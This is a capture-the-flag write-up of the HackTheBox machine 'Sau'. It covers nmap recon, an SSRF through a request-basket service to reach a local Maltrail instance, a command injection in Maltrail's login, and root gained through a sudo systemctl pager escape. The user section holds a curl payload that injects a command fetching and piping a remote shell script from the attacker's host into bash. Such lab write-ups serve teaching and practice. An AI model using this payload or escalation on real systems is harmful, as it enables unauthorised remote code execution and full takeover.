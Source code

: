 # Sau(HTB)

This was an easy machine on HackTheBox, we first exploit a SSRF to hit a local port running Maltrail. We find that therunning Maltrail instance has a command injection CVE that gets us on the box. The privilege escalation involved abusing a flaw in systemctl that elevates the pager that is being used to read the systemctl output, allowing us to spawn a shell as root.
![Untitled](/assets/images/sau/0.png)

# NMAP

```bash
# Nmap 7.93 scan initiated Thu Jan  4 23:10:22 2024 as: nmap -sC -sV -oA nmap/sau 10.10.11.224
Nmap scan report for 10.10.11.224
Host is up (0.038s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 aa8867d7133d083a8ace9dc4ddf3e1ed (RSA)
|   256 ec2eb105872a0c7db149876495dc8a21 (ECDSA)
|_  256 b30c47fba2f212ccce0b58820e504336 (ED25519)
80/tcp    filtered http
55555/tcp open     unknown
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     X-Content-Type-Options: nosniff
|     Date: Thu, 04 Jan 2024 15:10:58 GMT
|     Content-Length: 75
|     invalid basket name; the name does not match pattern: ^[wd-_\.]{1,250}$
|   GenericLines, Help, Kerberos, LDAPSearchReq, LPDString, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 302 Found
|     Content-Type: text/html; charset=utf-8
|     Location: /web
|     Date: Thu, 04 Jan 2024 15:10:32 GMT
|     Content-Length: 27
|     href="/web">Found</a>.
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Allow: GET, OPTIONS
|     Date: Thu, 04 Jan 2024 15:10:32 GMT
|_    Content-Length: 0
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port55555-TCP:V=7.93%I=7%D=1/4%Time=6596CA67%P=x86_64-pc-linux-gnu%r(Ge
SF:tRequest,A2,
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Jan  4 23:11:55 2024 -- 1 IP address (1 host up) scanned in 93.21 seconds
```

# Recon

Looking at the NMAP results we see that 3 ports are open. Port 22, 80 and 55555 are all open. However, port 80 is filtered meaning that the port is open but it is inaccessible externally. My first guess when I saw that filtered port in the NMAP result was that we would most likely have to find a SSRF (Server-Side Request Forgery) to elicit requests to port 80.  With that in mind I went to check out the web server that is running on port 55555.

![Untitled](/assets/images/sau/1.png)

Visiting port 55555 brings us to this webpage. From looking at the page we learn that this webpage is just a simple HTTP request bin that collects and intercepts HTTP requests. 

Lets Create a basket and test out the website!

![Untitled](/assets/images/sau/2.png)

If we now send a curl request to the URL of our basket

```bash
curl http://10.10.11.224:5555/utslgxu
```

we get a record of our request.

![Untitled](/assets/images/sau/3.png)

# USER

Looking at the settings for my basket we find a very promising settings that could potentially lead to SSRF.

![Untitled](/assets/images/sau/4.png)

The **`Forward URL`** configuration allows the user to forward the http request to another URL and by enabling the **`Proxy Response`** we could look at the response of the request that has been forwarded to another URL. From what we’ve seen, this feature basically works like a VPN for us. 

We configure the basket to forward our request to `[http://127.0.0.1:80](http://127.0.0.1:80)`and show us the response.

![Untitled](/assets/images/sau/5.png)

Now let’s try to hit the port 80 that we couldn’t previously access. 

![Untitled](/assets/images/sau/6.png)

We get greeted by the web page that is running on port 80. 

> *Since only the HTML is rendered and not the JS hence why the page looks so odd*
> 

Looking at the web page we see that it is running a service called Maltrail. A quick google search will reveal that Maltrail is an open sourced malicious traffic detection system. Googling the version will also reveal a OS Command Injection vulnerability affecting the version that is running on this instance.

```python
subprocess.check_output("logger -p auth.info -t \"%s[%d]\" \"%s password for %s from %s port %s\"" % (NAME.lower(), os.getpid(), "Accepted" if valid else "Failed", params.get("username"), self.client_address[0], self.client_address[1]), stderr=subprocess.STDOUT, shell=True)
```

This line of code is the culprit for this OS Command Injection. From my understanding, the cause of this vulnerability is due to the fact that the `shell=TRUE`was set and our user input isn’t properly sanitized before being inserted into the command. Therefore, an attacker could just insert their own commands leading to Command injection.

Now that we are aware of the vulnerability, lets exploit it to get a SHELL on the machine.

```bash
curl http://10.10.11.224/utslgxu --data 'username=;`curl 10.10.14.123:8000/shell|bash`'
```

# Privilege Escalation

Now that we are on the box as the user puma, we can do our usual privilege escalation enumeration. Starting with `sudo -l`

![Untitled](/assets/images/sau/7.png)

We can see that we can run systemctl with sudo. A quick GTFO bin search will show a way to exploit this.

> [https://gtfobins.github.io/](https://gtfobins.github.io/)
> 

![Untitled](/assets/images/sau/8.png)

Basically when `systemctl` is ran with sudo the default pager `less` will be ran with sudo privileges as well. 

> A pager is **a tool for displaying the contents of files or other output on the terminal, in a user friendly way, across several screens if needed**.
> 

And when we get put into the pager in this case it is `less`. We can spawn a shell with the `!sh` command when we are in the less pager, giving us a shell as the root user!

![Untitled](/assets/images/sau/9.png)
